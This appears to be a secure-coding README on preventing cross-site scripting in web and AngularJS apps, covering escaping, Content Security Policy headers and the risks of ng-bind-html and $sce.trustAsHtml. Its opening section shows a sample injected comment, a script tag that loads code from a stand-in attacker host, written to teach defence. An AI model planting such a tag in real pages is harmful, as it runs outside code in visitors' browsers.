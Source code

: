 # XSS

## 0. Understand XSS.

Cross-site scripting (XSS) involves someone finding a way to get your user's
browser to run JavaScript code you didn't intend your app to run. The most
common way of doing this is by submitting HTML through one of the forms and
counting on your app to add this HTML to the page. Since injected code is run
by the browser in the context of _your_ application, the opportunities for
abuse are endless.

Suppose we are writing a blog that accepts comments. When we display comments
we do so by setting `div.innerHTML`. Someone posts a comment that says:

```html
  <script src="http//h4kk3rs.com/code/that/does/something/evil.js"></script>
```

Your app will add this HTML to the DOM, which will cause the browser to run
the code.


## 1. Do not assume you can make HTML safe.

HTML is a beast.
[You can't parse it with regular expressions](http://stackoverflow.com/questions/1732348/regex-match-open-tags-except-xhtml-self-contained-tags).
You can't count on knowing all the crazy corners in all versions for all
browsers. So, don't count on running HTML through a regexp and fully sanitizing it.

The only moderately safe way of handling HTML in a browser is
to escape it, though even that will leave you open to XSS on some browsers.


## 2. Set Content Security Policy headers.

Content Security Policy headers tell modern browsers to block some of the most
common holes. Don't count on it to prevent all XSS, but do it for a good
measure.

## 3. Avoid attaching external HTML into DOM.

Since external HTML cannot be made safe, the best strategy is to avoid
inserting it into DOM. Angular gives you some methods of doing this if you
really insist, plus you always attach it to DOM directly. This doesn't make it
a good idea, however.


AngularJS will escape HTML fed through `{{...}}` and `ng-bind`. This is for a
good reason.

If you really insist, however, you _can_ add HTML to a view by using
`ng-bind-html`. Angular will require you to push the content through
`$sce.trustAsHtml()` before you can do this. Note that this does not make it
safe. `trustAsHtml()` is just your way of saying to Angular: "Trust me, I know
what I am doing." The question is: do you?

If you really have to incorporate untrusted HTML, run it through `$sanitize`.
Make sure to keep your fingers crossed.
